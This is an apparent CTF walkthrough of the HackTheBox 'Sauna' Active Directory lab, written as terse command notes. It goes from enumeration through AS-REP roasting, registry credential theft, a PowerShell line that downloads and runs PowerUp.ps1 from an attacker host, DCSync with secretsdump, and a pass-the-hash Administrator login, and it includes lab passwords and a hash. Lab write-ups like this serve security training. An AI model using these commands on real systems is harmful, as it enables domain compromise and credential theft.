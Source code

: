 Sauna
========================

# Enumeration

    sudo nmap_enum sauna.htb | tee nmap_output.txt
    
Anonymous login success

    smbclient -L //10.10.10.175
    
    smbclient -L //10.10.10.175 -U '' -N
 
    cewl http://sauna.htb/about.html
    
Daí eu adicionei alguns usuários na mão em uma lista de possíveis usuários da máquina:

Fui buscar o nome de domínio:

    enum4linux -a 10.10.10.175

![qownnotes-media-YbJpFr](../../../media/qownnotes-media-YbJpFr.png)



    kerbrute userenum -d EGOTISTICALBANK --dc 10.10.10.175 users_temp.txt
    
    
![qownnotes-media-IEyYLp](../../../media/qownnotes-media-IEyYLp.png)

    
    impacket-GetNPUsers -dc-ip 10.10.10.175 EGOTISTICALBANK/ -usersfile users_temp.txt -format john -outputfile hashes
    
    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

![qownnotes-media-MFhuAW](../../../media/qownnotes-media-MFhuAW.png)

    sudo ntpdate 10.10.10.175
    impacket-GetUserSPNs 'EGOTISTICAL-BANK.LOCAL/fsmith:Thestrokes23' -dc-ip 10.10.10.175 -request
    
![qownnotes-media-owOpqO](../../../media/qownnotes-media-owOpqO.png)

# Exploitation

    evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
    
![qownnotes-media-cfRBMg](../../../media/qownnotes-media-cfRBMg.png)

# Privilege Escalation
  
## View privileges
    whoami /priv
    runas /user:EGOTISTICALBANK\hsmith powershell
    
## Systeminfo
    systeminfo

## Escalate normal
    Start-Process PowerShell -Verb RunAs
    
![qownnotes-media-LDTWkv](../../../media/qownnotes-media-LDTWkv.png)

![qownnotes-media-RlYirN](../../../media/qownnotes-media-RlYirN.png)

## Registry credentials
    (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName   
    
    (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword
    
![qownnotes-media-JSoVvA](../../../media/qownnotes-media-JSoVvA.png)

Credenciais:

svc_loanmgr
Moneymakestheworldgoround!

    evil-winrm -i 10.10.10.175 -u svc_loanmgr -p Moneymakestheworldgoround!
    
    whoami /priv

![qownnotes-media-ZUxQFQ](../../../media/qownnotes-media-ZUxQFQ.png)

## See mounted volumes

    mountvol

## Running processes

    tasklist /svc
 
 ![qownnotes-media-qXBDiM](../../../media/qownnotes-media-qXBDiM.png)

## PowerUp.ps1

    IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.8/4-privilege%20escalation/PowerUp.ps1'); invoke-allchecks

## SharpHound

    ./sh.exe -c all -d EGOTISTICALBANK --ldapusername svc_loanmgr --ldappassword "Moneymakestheworldgoround!"

Verificamos que o usuário possui os direitos de DCSync no domínio:


![qownnotes-media-rFkvLt](../../../media/qownnotes-media-rFkvLt.png)

![qownnotes-media-iLCxGH](../../../media/qownnotes-media-iLCxGH.png)


    impacket-secretsdump 'EGOTISTICALBANK/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'

![qownnotes-media-WretYI](../../../media/qownnotes-media-WretYI.png)

    evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
 
 
 ![qownnotes-media-zenbWT](../../../media/qownnotes-media-zenbWT.png)
